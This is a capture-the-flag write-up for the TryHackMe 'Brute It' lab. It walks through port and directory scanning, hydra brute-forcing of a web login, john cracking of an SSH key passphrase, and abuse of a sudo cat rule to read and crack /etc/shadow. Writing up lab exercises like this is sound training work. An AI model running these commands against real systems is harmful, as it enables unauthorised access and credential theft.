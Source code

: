 ```yaml
---
title : Brute It - Writeup
---
```


_**Nov 08, 2020**_

[Brute It](https://tryhackme.com/room/bruteit) Writeup


## Nmap Scan :

```
bvr0n@kali:~/CTF/THM/Brute_It$ nmap -sC -sV 10.10.140.71 -Pn
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH *.*** Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:0e:bf:14:fa:54:b3:5c:44:15:ed:b2:5d:a0:ac:8f (RSA)
|   256 d0:3a:81:55:13:5e:87:0c:e8:52:1e:cf:44:e0:3a:54 (ECDSA)
|_  256 da:ce:79:e0:45:eb:17:25:ef:62:ac:98:f0:cf:bb:04 (ED25519)
80/tcp open  http    Apache httpd *.*.** ((Ubuntu))
|_http-server-header: Apache/*.*.** (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Enum :

```
bvr0n@kali:~$ gobuster dir -u http://10.10.140.71/ -w Documents/Dirbuster/wordlist.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.140.71/
[+] Threads:        10
[+] Wordlist:       Documents/Dirbuster/wordlist.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/11/08 06:58:30 Starting gobuster
===============================================================
/***** (Status: 301)
```

When accessing the web page, we got something in the code source :
```
<!-- Hey john, if you do not remember, the username is ***** -->
```
So now we know that the username is `*****`, let's start brute forcing with `hydra` :).

```
bvr0n@kali:~/CTF/THM/Brute_It$ hydra -l ***** -P ~/Documents/rockyou.txt 10.10.140.71 http-post-form "/*****/:user=^USER^&pass=^PASS^&LOGIN=Login:Username or password invalid"
[DATA] attacking http-post-form://10.10.140.71:80/*****/:user=^USER^&pass=^PASS^&LOGIN=Login:Username or password invalid
[80][http-post-form] host: 10.10.140.71   login: *****   password: ******
```
Let's grab the private key and brute force it with `john`, but first let's turn it into something john understand :
```
bvr0n@kali:~/CTF/THM/Brute_It$ /usr/share/john/ssh2john.py id_rsa > hash
bvr0n@kali:~/CTF/THM/Brute_It$ sudo john hash --wordlist=/home/bvr0n/Documents/rockyou.txt
**********       (id_rsa)
```
Now we have access into SSH.

## Internal Enum :

Looks like we have some privileges xD, we can read everything with `cat`, Let's grab the root hash inside `/etc/shadow` and crack it:
```
john@bruteit:~$ sudo -l
Matching Defaults entries for john on bruteit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat
```
```
john@bruteit:/home/thm$ sudo cat /etc/shadow
root:$6$zdk0.************************************************LF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.:18490:0:99999:7:::
bvr0n@kali:~/CTF/THM/Brute_It$ sudo john root.txt --wordlist=/home/bvr0n/Documents/rockyou.txt
********         (root)
```
```
john@bruteit:~$ sudo /bin/cat /root/root.txt
THM{********************}
```

<br>
best regards

[bvr0n](https://github.com/bvr0n)


<br>
[back to main()](https://bvr0n.github.io/)

<br>
